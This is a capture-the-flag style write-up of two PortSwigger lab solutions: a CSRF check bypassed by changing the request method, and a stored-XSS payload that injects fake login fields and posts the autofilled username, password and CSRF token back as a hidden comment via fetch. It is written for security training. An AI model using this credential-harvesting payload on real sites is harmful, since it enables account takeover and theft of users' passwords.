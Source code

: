 ### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br>![img](./img/38.png)<br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br>![img](./img/39.png)<br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br>![img](./img/40.png)<br>
It works even deleting the csrf parameter:
<br>![img](./img/41.png)<br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br>![img](./img/42.png)<br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)



### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br>![img](./img/33.png)<br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br>![img](./img/34.png)<br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br>![img](./img/36.png)<br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br>![img](./img/37.png)<br>
We can retrive the administrator password in the source of the page
